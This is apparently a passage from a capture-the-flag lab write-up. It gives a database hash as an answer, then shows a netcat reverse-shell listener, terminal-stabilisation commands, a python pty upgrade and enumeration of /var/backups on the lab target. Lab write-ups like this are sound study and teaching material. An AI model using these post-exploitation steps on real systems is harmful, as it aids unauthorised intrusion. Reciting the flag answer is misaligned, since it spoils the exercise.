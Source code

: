 We have the **DB_USERNAME** and **DB_PASSWORD** so we can move into the DB and find the Hash

**Answer** 
#### a228b12a08b6527e7978cbe5d914531c

**Question**
#### What's the user flag?

Before to move forward, I need to stabilize the shell.For this room, it is a really tough part.
- From Victim: export TERM=xterm
- From Victim: Suspend the shell with the command Ctrl+Z
- From Local machine: ssty raw -echo;fg
- From Victim: check the **id**
- From Victim: upgrade the shell
```
 ~ % nc -nlvp 4545
Connection from 10.10.135.239:45244
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm
$ ^Z
zsh: suspended  nc -nlvp 4545
 ~ % ssty raw -echo;fg
zsh: command not found: ssty
[1]  + continued  nc -nlvp 4545
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@gallery:/var/www/html/gallery/uploads$
```

Another task where I spent a lot of time. Maybe, I'm not efficient.......
```
$ pwd
/var
$ ls -la
total 52
drwxr-xr-x 13 root root   4096 May 20  2021 .
drwxr-xr-x 23 root root   4096 Feb 12 21:42 ..
drwxr-xr-x  3 root root   4096 Feb 13 19:00 backups
drwxr-xr-x  9 root root   4096 May 21  2021 cache
drwxrwxrwt  2 root root   4096 May 20  2021 crash
drwxr-xr-x 42 root root   4096 Feb 12 23:08 lib
drwxrwsr-x  2 root staff  4096 Apr 24  2018 local
lrwxrwxrwx  1 root root      9 Aug  6  2020 lock -> /run/lock
drwxrwxr-x 11 root syslog 4096 Feb 13 19:07 log
drwxrwsr-x  2 root mail   4096 Aug  6  2020 mail
drwxr-xr-x  2 root root   4096 Aug  6  2020 opt
lrwxrwxrwx  1 root root      4 Aug  6  2020 run -> /run
drwxr-xr-x  5 root root   4096 May 20  2021 spool
drwxrwxrwt  2 root root   4096 Feb 13 18:59 tmp
drwxr-xr-x  3 root root   4096 May 20  2021 www
```
Under **var**, I found the **backups** directory.
```
$ cd backups
$ pwd
/var/backups
$ ls -la
total 60
drwxr-xr-x  3 root root  4096 Feb 13 19:00 .
drwxr-xr-x 13 root root  4096 May 20  2021 ..
-rw-r--r--  1 root root 34789 Feb 12 21:40 apt.extended_states.0
-rw-r--r--  1 root root  3748 Aug 25 10:35 apt.extended_states.1.gz
-rw-r--r--  1 root root  3516 May 21  2021 apt.extended_states.2.gz
-rw-r--r--  1 root root  3575 May 20  2021 apt.extended_states.3.gz
drwxr-xr-x  5 root root  4096 May 24  2021 mike_home_backup
```